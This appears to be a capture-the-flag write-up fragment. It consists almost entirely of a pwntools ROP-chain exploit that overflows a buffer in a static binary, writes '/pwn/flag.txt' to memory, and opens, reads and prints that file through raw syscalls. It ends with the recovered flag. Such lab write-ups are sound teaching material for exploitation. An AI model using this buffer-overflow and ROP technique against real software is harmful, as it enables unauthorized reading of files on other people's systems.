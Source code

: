 ``` py
pop_rsi_ret = p64(0x0000000000401713)
syscall_ret = p64(0x0000000000401ab2)
mov_dst_eax = p64(0x000000000040198d) # NOTE: mov dword ptr [rdi + rdx - 0x27], eax ; mov rax, rdi ; ret

buf_addr = p64(0x4040a0)

payload = b'A'*(296)
# 1. write "/pwn/flag.txt" to memory (0x4040a0 is writable and empty)
rdi = p64(0x4040a0 + 0x27)
rdx = p64(0x00)
eax = p64(0x6e77702f)
payload += pop_rdi_ret + rdi + pop_rdx_ret + rdx + pop_rax_ret + eax + mov_dst_eax

rdi = p64(0x4040a0 + 0x27 + 0x04)
rdx = p64(0x00)
eax = p64(0x616c662f)
payload += pop_rdi_ret + rdi + pop_rdx_ret + rdx + pop_rax_ret + eax + mov_dst_eax

rdi = p64(0x4040a0 + 0x27 + 0x08)
rdx = p64(0x00)
eax = p64(0x78742e67)
payload += pop_rdi_ret + rdi + pop_rdx_ret + rdx + pop_rax_ret + eax + mov_dst_eax

rdi = p64(0x4040a0 + 0x27 + 0x0c)
rdx = p64(0x00)
eax = p64(0x74)
payload += pop_rdi_ret + rdi + pop_rdx_ret + rdx + pop_rax_ret + eax + mov_dst_eax

# 2. open the file for reading syscall:
rax = p64(0x02)
rdi = p64(0x4040a0)
rsi = p64(0x00)
payload += pop_rax_ret + rax + pop_rdi_ret + rdi + pop_rsi_ret + rsi + syscall_ret

# 3. read the file to a buffer
rax = p64(0x00)
rdi = p64(0x03)
rsi = p64(0x4040a0)
rdx = p64(0xff)
payload += pop_rax_ret + rax + pop_rdi_ret + rdi + pop_rsi_ret + rsi + pop_rdx_ret + rdx + syscall_ret

# 4. write buffer to stdout
rax = p64(0x01)
rdi = p64(0x01)
rsi = p64(0x4040a0)
rdx = p64(0xff)
payload += pop_rax_ret + rax + pop_rdi_ret + rdi + pop_rsi_ret + rsi + pop_rdx_ret + rdx + syscall_ret

# 5. exit() to prove ropchain executed to the end
rax = p64(60)
rdi = p64(0x00)

payload += pop_rax_ret + rax + pop_rdi_ret + rdi + syscall_ret 

target.recv()
target.sendline(payload)
target.interactive()
```

flag: `gigem{trivial_but_its_static}`

